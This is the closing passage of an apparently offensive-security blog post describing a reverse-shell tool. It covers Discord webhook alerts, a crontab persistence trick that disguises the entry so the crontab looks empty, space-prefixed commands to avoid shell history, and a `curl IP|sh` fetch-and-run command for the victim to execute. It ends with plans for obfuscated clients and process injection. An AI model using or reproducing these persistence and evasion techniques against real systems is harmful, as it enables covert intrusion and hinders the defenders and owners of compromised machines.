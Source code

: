 - A push notification with `discord webhooks`, it's a simple curl so yes, it could be stealthier :)
- An automatic persistency payload that will use a trick with a comment and a "line-clearer" character to mimic an empty crontab. The newly added crontask will check every minute if the reverse shell is up, and spawn a new one if it died.
- No history should be logged as these commands are ran with prefixed spaces, which is a behavior that prevents standard shells from logging the issued commands

That's it. We're done. Now, all the victim needs to execute is `curl IP|sh` and we're all set, feels like home ! ❤️❤️❤️


<img class="img_full" src="png-11.png" alt="png-11">


# 4. Demo

All the words I can write are not worth a demo, so here it is. 

{{< youtube TTEGIhvu7eQ >}}


# 5. Future improvements

Just like for every software, it'll probably never be "finished", there's a lot of room for improvements. A few things are in mind for now:

- Support more architectures, x86, windows, arm, ... Maybe with a golang (cross-compiles and obfuscated easily) client instead of socat on the victim-side?
- Host the payload with http AND https, but this would force us to use a longer payload, as curl uses http by default, thus requiring something like `curl https://IP:PORT|sh`. It's still ok but contains more badchars (colon and forward slashes)... Encryption has a success-rate cost :(
- Add more push-notification methods / services
- Add more persistancy options, like nohup, a while loop, process injection, and so on. 
